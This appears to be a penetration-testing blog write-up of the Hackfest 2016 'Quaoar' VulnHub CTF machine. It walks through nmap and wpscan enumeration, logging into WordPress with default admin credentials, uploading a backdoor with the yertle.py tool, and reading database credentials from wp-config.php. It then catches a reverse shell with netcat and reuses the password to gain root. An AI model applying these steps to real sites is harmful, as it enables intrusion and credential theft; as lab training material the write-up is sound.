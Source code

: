 ```yaml
---
layout: post
title: "Hackfest 2016: Quaoar"
date: 2018-09-21 10:37:53 -0400
comments: true
categories: [penetration testing, writeups]
keywords: quaoar, hackfest, hackfest quaoar, vulnhub, wpforce, yertle
description: Quaoar writeup
---
```


Today's target was created for the Hackfest 2016 CTF. The goal is to become root and get a flag on the machine.

<!-- more -->

Nmap shows SSH, Samba, a web server and mail services running on the target:

``` 
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
|   2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
|_  256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
53/tcp  open  domain      ISC BIND 9.8.1-P1
| dns-nsid: 
|_  bind.version: 9.8.1-P1
80/tcp  open  http        Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL STLS CAPA UIDL PIPELINING TOP
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2018-09-21T14:42:41+00:00; 0s from scanner time.
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: post-login have more capabilities Pre-login LOGINDISABLEDA0001 LITERAL+ listed ENABLE OK LOGIN-REFERRALS ID STARTTLS IMAP4rev1 IDLE SASL-IR
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2018-09-21T14:42:41+00:00; 0s from scanner time.
445/tcp open  netbios-ssn Samba smbd 3.6.3 (workgroup: WORKGROUP)
993/tcp open  ssl/imap    Dovecot imapd
|_imap-capabilities: post-login more capabilities Pre-login have LITERAL+ listed ENABLE OK LOGIN-REFERRALS ID AUTH=PLAINA0001 IMAP4rev1 IDLE SASL-IR
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2018-09-21T14:42:41+00:00; +1s from scanner time.
995/tcp open  ssl/pop3    Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2018-09-21T14:42:40+00:00; +1s from scanner time.
```

On the web server there are some pictures with planets and the message "Hack The Planet". But there are entries in robots.txt:

``` 
Disallow: Hackers
Allow: /wordpress/
   ____                              
#  /___ \_   _  __ _  ___   __ _ _ __ 
# //  / / | | |/ _` |/ _ \ / _` | '__|
#/ \_/ /| |_| | (_| | (_) | (_| | |   
#\___,_\ \__,_|\__,_|\___/ \__,_|_|  
```

No directory called hackers but there is a Wordpress blog :p

{% img center /images/pentest/quaoar/quaoar_blog.png 'wordpress' 'wordpress blog' %}

Naturally, I ran Wpscan, and it found 2 usernames:

``` 
[+] Enumerating usernames ...
[+] We identified the following 2 users:
    +----+--------+--------+
    | ID | Login  | Name   |
    +----+--------+--------+
    | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
```

A prelimiary check for default credentials actually revealed the password for the admin user is..you will never guess it..admin! For receiving a shell, I wanted to try a new tool: [WPForce](https://github.com/n00py/WPForce)!

> WPForce is a suite of Wordpress Attack tools. Currently this contains 2 scripts - WPForce, which 
> brute forces logins via the API, and Yertle, which uploads shells once admin credentials have been 
> found. Yertle also contains a number of post exploitation modules.

I used the <code>yertle.py</code> script to upload a backdoor:

``` 
python yertle.py -u "admin" -p "admin" -t "http://192.168.217.145/wordpress" -i
     _..---.--.    __   __        _   _
   .'\ __|/O.__)   \ \ / /__ _ __| |_| | ___
  /__.' _/ .-'_\    \ V / _ \ '__| __| |/ _ \.
 (____.'.-_\____)    | |  __/ |  | |_| |  __/
  (_/ _)__(_ \_)\_   |_|\___|_|   \__|_|\___|
   (_..)--(.._)'--'         ~n00py~
      Post-exploitation Module for Wordpress
                     v.1.1.0
    
Backdoor uploaded!
Upload Directory: cpucqjc
os-shell> whoami
Sent command: whoami
www-data
os-shell> pwd
Sent command: pwd
/var/www/wordpress/wp-content/plugins/cpucqjc
```

Time to snoop around! I was able to read <code>/var/www/wordpress/wp-config.php</code> and inside found credentials for the SQL database:

``` 
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');
```

I also found a flag inside *wpadmin*'s home directory:

``` 
os-shell> cat /home/wpadmin/flag.txt
Sent command: cat /home/wpadmin/flag.txt
2bafe61f03117ac66a73c3c514de796e
```

I found the shell I had pretty restrictive so I used Yertle to get a reverse shell that I could upgrade:

``` 
os-shell> shell
IP Address: 192.168.217.132
Port: 8888
Sending reverse shell to 192.168.217.132 port 8888
```

And on my listener side:

``` 
nc -lnvp 8888
listening on [any] 8888 ...
connect to [192.168.217.132] from (UNKNOWN) [192.168.217.145] 50713
bash: no job control in this shell
www-data@Quaoar:/var/www/wordpress/wp-content/plugins/cpucqjc$ 
```

I used Python to spawn a TTY and then I tried the root credentials for a pleasant surprise. They are the actual credentials of the root user!

``` 
root@Quaoar:~# cat /root/flag.txt
8e3f9ec016e3598c5eec11fd3d73f6fb
```

And that was it for this challenge!

``` 
 __________________________________
/ Be cheerful while you are alive. \
|                                  |
\ -- Phathotep, 24th Century B.C.  /
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

